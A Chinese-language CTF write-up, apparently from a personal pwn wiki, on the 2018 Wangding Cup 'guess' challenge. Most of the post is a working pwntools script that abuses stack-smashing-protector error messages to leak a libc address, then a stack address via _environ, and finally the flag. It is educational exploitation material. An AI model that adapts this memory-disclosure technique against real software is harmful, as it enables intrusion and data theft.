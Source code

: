 ```yaml
---
title: 花式栈溢出- stack smash2
date:  2020-07-09 13:02:51
updated: 2020-07-09 13:02:51
tags:
    - 花式栈溢出
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.查看

2018 网鼎杯 - guess

![image.png](https://i.loli.net/2020/11/17/t8yKZOnLfmFHCjd.png)

# 2.ida分析

![image.png](https://i.loli.net/2020/11/17/sOxUpM16l9GXBAr.png)

程序先从文件中读取flag放入栈中，在从输入覆盖flag，并给了三次机会输入。

三次可以通过stack smash分别leak puts（libc）、栈地址，flag

# 3.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
my_u64 = lambda x: u64(x.ljust(8, '\0'))
context.log_level = 'debug'
p=process('./GUESS')
elf=ELF('./GUESS')
libc = elf.libc
p.recvuntil('Please type your guessing flag\n')
payload='a'*296+p64(elf.got['puts'])
p.sendline(payload)
p.recvuntil('*** stack smashing detected ***: ')
puts=my_u64(p.recv(6))


libc_base = puts - libc.symbols['puts']
environ_addrs = libc_base + libc.symbols['_environ']
payload2 = 296 * 'a' + p64(environ_addrs)
p.recvuntil('guessing flag\n')
p.sendline(payload2)
p.recvuntil('*** stack smashing detected ***: ')
stack=my_u64(p.recv(6))
#print hex(stack)

p.recvuntil('guessing flag\n')
payload3 = 296 * 'a' + p64(stack - 0x168)
p.sendline(payload3)
p.interactive()
```